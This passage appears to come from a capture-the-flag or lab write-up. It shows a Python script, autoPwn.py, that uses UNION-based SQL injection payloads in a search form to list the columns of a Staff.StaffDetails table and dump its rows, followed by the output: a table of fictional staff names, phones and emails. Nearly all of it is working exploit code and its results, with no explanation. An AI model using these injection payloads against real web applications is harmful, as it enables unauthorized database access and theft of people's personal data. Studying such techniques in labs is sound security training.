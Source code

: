 ```
data_post = {
	"search" : "' UNION SELECT column_name,2,3,4,5,6 FROM information_schema.columns where table_schema=\"{}\" and table_name=\"{}\"-- -".format("Staff", "StaffDetails")
	}

s = requests.post(url,data=data_post)
columns = re.findall(r"ID: (.*?)<br",s.text)

array=[]
data_post = {'search': "' UNION SELECT concat(id,0x7c,firstname,0x7c,lastname,0x7c,position,0x7c,phone,0x7c,email,0x7c,reg_date),2,3,4,5,6 from Staff.StaffDetails-- -"}

s = requests.post(url,data=data_post)
data = re.findall(r"ID: (.*?)<br",s.text)

for i in data:
	s = i.split("|")
	array.append(s)
#print(array)

print(tabulate.tabulate(array, headers=columns))
```

```
❯ python3 autoPwn.py
  id  firstname    lastname    position                                phone  email                  reg_date
----  -----------  ----------  -----------------------------  --------------  ---------------------  -------------------
   1  Mary         Moe         CEO                            46478415155456  marym@example.com      2019-05-01 17:32:00
   2  Julie        Dooley      Human Resources                   46457131654  julied@example.com     2019-05-01 17:32:00
   3  Fred         Flintstone  Systems Administrator                46415323  fredf@example.com      2019-05-01 17:32:00
   4  Barney       Rubble      Help Desk                           324643564  barneyr@example.com    2019-05-01 17:32:00
   5  Tom          Cat         Driver                              802438797  tomc@example.com       2019-05-01 17:32:00
   6  Jerry        Mouse       Stores                            24342654756  jerrym@example.com     2019-05-01 17:32:00
   7  Wilma        Flintstone  Accounts                            243457487  wilmaf@example.com     2019-05-01 17:32:00
   8  Betty        Rubble      Junior Accounts                   90239724378  bettyr@example.com     2019-05-01 17:32:00
   9  Chandler     Bing        President - Sales                   189024789  chandlerb@example.com  2019-05-01 17:32:00
  10  Joey         Tribbiani   Janitor                             232131654  joeyt@example.com      2019-05-01 17:32:00
  11  Rachel       Green       Personal Assistant               823897243978  rachelg@example.com    2019-05-01 17:32:00
  12  Ross         Geller      Instructor                         6549638203  rossg@example.com      2019-05-01 17:32:00
  13  Monica       Geller      Marketing                          8092432798  monicag@example.com    2019-05-01 17:32:00
  14  Phoebe       Buffay      Assistant Janitor                 43289079824  phoebeb@example.com    2019-05-01 17:32:02
  15  Scooter      McScoots    Resident Cat                        454786464  scoots@example.com     2019-05-01 20:16:33
  16  Donald       Trump       Replacement Janitor            65464646479741  janitor@example.com    2019-12-23 03:11:39
  17  Scott        Morrison    Assistant Replacement Janitor     47836546413  janitor2@example.com   2019-12-24 03:41:04
```